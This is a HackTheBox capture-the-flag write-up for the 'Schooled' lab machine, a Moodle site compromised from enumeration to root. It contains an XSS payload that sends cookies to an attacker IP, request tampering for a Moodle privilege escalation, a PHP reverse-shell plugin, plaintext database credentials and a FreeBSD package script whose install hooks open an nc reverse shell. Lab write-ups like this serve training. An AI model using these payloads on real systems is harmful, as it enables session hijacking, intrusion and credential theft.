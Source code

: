 ```yaml
---
title: HackTheBox - Schooled Writeup
date: 2021-05-06 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Schooled Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/3e2a599fda2f510f3a5f2146fae928ee.png">
</p>


Get ready to be schooled trying this one!

*[Find the official room for Hackthebox's - Schooled here!](https://app.hackthebox.eu/machines/335)*


----------------------------------------------------------------------------------------------------

## ENUMERATION

- Beginning enumeration with nmap using a default script and version scan with the verbosity on to see open ports on the fly without having to wait for the scan to finish. Ports 22,80 are found open.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled1.png)
- Scanning for all ports using nmap shows **mysql** is running on port **33060**.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled2.png)
- Trying to see if we can remotely access the database results in no access. 
- Moving on, we begin by looking at port 80 as always....
- Looking at page source suggests for adding an entry in our hosts list. Add `schooled.htb     <corresponding IP>` to your `/etc/hosts` file and continue browsing the site. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled3.png)
- Looking at the about us page . We discover The possble CMS used is - **Moodle**
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled4.png)
- Looking at the Teachers page , we find a bunch of possible unames and roles. Add them to a `user.list` file.
    ```bash
    Jane Higgins :- Scientific Research lecturer
    Lianne Carter:- Manager and English Teacher
    Manuel Phillips:- Mathematics Teacher
    Jamie Borham:- Information Technology lecturer
    ```
- Directory bruteforcing using `gobuster` dosent result in anything too useful.
- So far info discovered:
    ```bash
    mail: admissions@schooled.htb
    From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
    ```
- Nothing seems too useful so far. No admin/login panels were found so far.
- Using `gobuster` for `vhost` bruteforcing we find: `moodle.schooled.htb`
- Add `moodle.schooled.htb` to your `/etc/hosts` list and browse to it as before.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled5.png)
- Visiting the page lets us signup without a confirmation.
- Abuse this to create an account next. While signing up the mail naming convention is name@student.schooled.htb.
- After unsuccesfull attempts to upload a payload and get rce, what is odd is that `Manuel Phillips` (teacher) was online and the owner of the maths course. A Possible XSS attack could be attempted.
- On Looking for the Moodle versions and [CVE] we find 2 major.
- Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. This could be used as the potential XSS avenue. 


----------------------------------------------------------------------------------------------------

## FOOTHOLD:

- Setup a `xss-server` with this [simple python script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py). 
- Start the server. 
- Enroll in the maths course .
- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`
- Paste it in the user settings section
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled6.png)
- Wait for a few seconds and recieve the teachers cookie on your `xss-server`.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled7.png)
- Copy this `cookie --> Inspect Element --> Storage --> replace MoodleSession's value to the cookie`. Refresh the pg/F5 to. You're Now Manuel Phillips (Teacher).

### PRIVILEGE ESCALATION: TEACHER --> MANAGER --> ADMIN

- A interesting site is found while searching for exploits: [moodle_priv_esc](https://moodle.org/security/index.php?o=3&p=2)
- This shows that  a privesc was possible from teacher to manager role is possible by exploiting the course enrollment functionality. 
- Looking at our `users.txt` we know that Lianne Carter is a manager and we could possibly perform the exploit with this user.
- Looking up the cve on github a POC is found: [exploit_poc](https://github.com/HoangKien1020/CVE-2020-14321)
- Steps to perform this privesc:
    - Go to the maths section as `teacher --> Participants`.
    - Click on the Enroll Users option and enroll Lianne carter. Switch on intercept in burp and intercept the passed request.
    - Send the request to repeater and change the following 2 values to match that of your current teacher(`id=24`).
    - Changed these params to match: `userlist%5B%5D=24&roletoassign=1`. (Changing user id to teachers id == 24 and changing role to admin == 1)
![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled8.png)
- Send the request and stop intercept after.
    - From here click on Lianne carter's profile from the below list. Note to see the difference and an Administration button appear on the side.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled9.png)
- Click on it and now we have manager privileges.
- From the POC discussed above we can add even more privileges to allow us to install a plugin of choice. To do this click on site administration from here.
- Click on `Users --> define roles`.  Click on the 'edit' icon in the manager role. Turn intercept on before you do and add the payload from the POC described. Forward the request to get admin privileges.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled10.png)
- Next grab `rce.zip` from [here](https://github.com/HoangKien1020/Moodle_RCE)
- Unzip the file. Modify `block_rce.php` file to a standard php reverse shell of your choosing. Zip back the contents using `zip -r -q lala.zip rce`
- Click on install plugin after `upload --> continue`. You will see a screen with current information. Dont go past it . Time to trigger the rce.
- Setup an `nc` listener , Open a new tab and  trigger the exploit using this link **http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php**
- We now have a shell. 


----------------------------------------------------------------------------------------------------


## POST EXPLOITATION

**user.txt:**

- Poking around and looking for config files, we find the apache and moodle data directory as `usr/local/www/apache24/data/moodle/`.
- Checking the contents of the **config.php** file in dir:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled11..jpg)
- We get database creds as *moodle:P################0* .
- Notice that mysql dosent exist in PATH. We find mysql using the basic find command: `find / -name mysql 2> /dev/null`
- Mysql is at `/usr/local/bin/mysql`.
- We perform 3 basic queries now to enumerate the database: 
    - First cd to /usr/local/bin.
- Then:
    > `mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'` --> infer moodle as the db name.
    
    > `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'`  --> infer mdl_user could be of interest.
    
    > `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;'` --> DB creds dump. 
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled12.png)
- Jamie's account here is of interest as he is one of the users on the box.
- This hash is a `bcrypt hash`.
- Usejohn the ripper to crack the hash:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled13.jpg)
- Jamies creds: *jamie:!#####x*
- Now ssh over with these creds.
- Grab `user.txt` from jamie's home directory.

**root.txt**

- Performing a basic `sudo -l`:
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled14.png)
- Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.
- We can use this to probably install a custom package with code modified to privilege escalate to root.
- [Refer this article](http://lastsummer.de/creating-custom-packages-on-freebsd/)
- After reading the article put it all as a single script and modify parts of it as per your host listener. Use`nc` shells as the box has netcat and bsd just wouldn't work well with regular bash shells.
- The script :
    ```bash
    #!/bin/sh
    STAGEDIR=/tmp/stage
    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}
    cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
    # careful here, this may clobber your system
    echo "Resetting root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo "Registering root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: "1.0_5"
    origin: sysutils/mypackage
    comment: "automates stuff"
    desc: "automates tasks which can also be undone later"
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF
    echo "deps: {" >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
    echo "}" >> ${STAGEDIR}/+MANIFEST
    mkdir -p ${STAGEDIR}/usr/local/etc
    echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
    echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
    ```
- Save the script and make it an executable: `chmod +x script.sh`
- Execute the script and note to see a package made named: `mypackage-1.0_5.txz`
- Run : `sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz` (`--no-repo-update` to stop it from checking an online source) and start a listener.
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled15.png)
    ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled16.png)
- Grab `root.txt` from the root home directory.

--------------------------------------------------------------


